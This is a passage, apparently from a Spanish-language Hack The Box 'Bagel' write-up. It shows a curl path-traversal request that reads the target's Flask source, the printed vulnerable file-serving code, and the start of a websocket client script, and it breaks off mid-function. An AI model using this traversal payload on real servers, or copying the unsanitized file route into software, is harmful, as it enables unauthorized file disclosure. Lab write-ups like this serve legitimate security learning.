 ```bash
❯ curl -s 'http://bagel.htb:8000/?page=../../../../../../home/developer/app/app.py'
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)

@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```

Este es el script que me compartio **ChatGPT** ya que al hacerlo con **python3** tenia muchos errores y no funcionaba pero con **python2** me funciono

```bash
#!/usr/bin/python3

import websocket
import json

# Define the WebSocket URL
ws_url = "ws://bagel.htb:5000/"

# Define the WebSocket connection callback functions
def on_open(ws):
    # Create a dictionary containing the request parameters
    order = {"ReadOrder": "orders.txt"}

    # Convert the dictionary to a JSON-encoded string
    data = json.dumps(order)

    # Send the message to the WebSocket server
    ws.send(data)

def on_message(ws, message):
```